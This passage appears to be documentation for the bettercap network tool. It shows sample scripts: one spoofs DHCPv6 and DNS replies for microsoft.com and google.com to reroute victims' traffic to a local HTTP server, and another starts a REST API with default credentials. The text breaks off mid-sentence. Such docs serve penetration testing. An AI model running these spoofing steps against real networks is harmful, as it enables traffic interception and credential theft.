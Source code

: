 #### mitm6.cap

[Reroute IPv4 DNS requests by using DHCPv6 replies](https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/), start a HTTP server and DNS spoofer for `microsoft.com` and `google.com`.

```sh
# let's spoof Microsoft and Google ^_^
set dns.spoof.domains microsoft.com, google.com
set dhcp6.spoof.domains microsoft.com, google.com

# every http request to the spoofed hosts will come to us
# let's give em some contents
set http.server.path www

# serve files
http.server on
# redirect DNS request by spoofing DHCPv6 packets
dhcp6.spoof on
# send spoofed DNS replies ^_^
dns.spoof on

# set a custom prompt for ipv6
set $ {by}{fw}{cidr} {fb}> {env.iface.ipv6} {reset} {bold}» {reset}
# clear the events buffer and the screen
events.clear
clear
```

<center>
    <img src="https://pbs.twimg.com/media/DTXrMJJXcAE-NcQ.jpg:large" width="100%"/>
</center>

#### rest-api.cap

Start a rest API.

```sh
# change these!
set api.rest.username bcap
set api.rest.password bcap
# set api.rest.port 8082

# actively probe network for new hosts
net.probe on

# enjoy /api/session and /api/events
api.rest on
```

Get information about the current session:

    curl -k --user bcap:bcap https://bettercap-ip:8083/api/session

Execute a command in the current interactive session:
